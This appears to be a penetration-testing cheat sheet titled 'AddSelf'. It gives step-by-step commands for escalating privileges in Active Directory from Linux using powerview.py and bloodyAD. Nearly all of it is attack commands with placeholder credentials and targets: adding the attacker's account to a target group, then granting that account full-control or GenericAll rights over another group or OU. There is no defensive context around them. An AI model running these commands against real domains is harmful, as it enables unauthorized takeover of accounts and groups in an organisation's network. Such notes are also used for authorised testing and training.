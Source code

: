 ```yaml
---
title: "AddSelf"
date: 2024-8-2
tags: ["addself", "active directory", "ad", "domain controller", "Windows", "powerview", "bloodAD", "privesc"]
---
```


---
### Privesc #1: Add self to group (From Linux)

#### powerview.py

[powerview.py](https://github.com/aniqfakhrul/powerview.py)

```bash
# Connect
sudo ntpdate -s <DC> && powerview <DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET_DOMAIN>
```

```bash
# Add self to group
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USERNAME>
```

```bash
# Check
Get-DomainGroupMember -Identity <TARGET_GROUP>
```

```bash
# Exit and login again to apply changes
Add-DomainObjectAcl -TargetIdentity <ANOTHER_GROUP> -PrincipalIdentity <USERNAME> -Rights fullcontrol
```

```bash
# Check
Get-DomainObjectAcl -Identity <TARGET_USER_IN_ANOTHER_GROUP> -Where "SecurityIdentifier contains <USERNAME>"
```

#### bloodAD

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> add groupMember <TARGET_GROUP> <USERNAME>
```

```bash
# After getting full control of target group (e.g. TARGET_GROUP has genericall over ANOTHER_GROUP)
python3 bloodyAD.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --host <DC> add genericAll 'OU=<ANOTHER_GROUP>,DC=<EXAMPLE>,DC=<COM>' <USERNAME>
```

<br>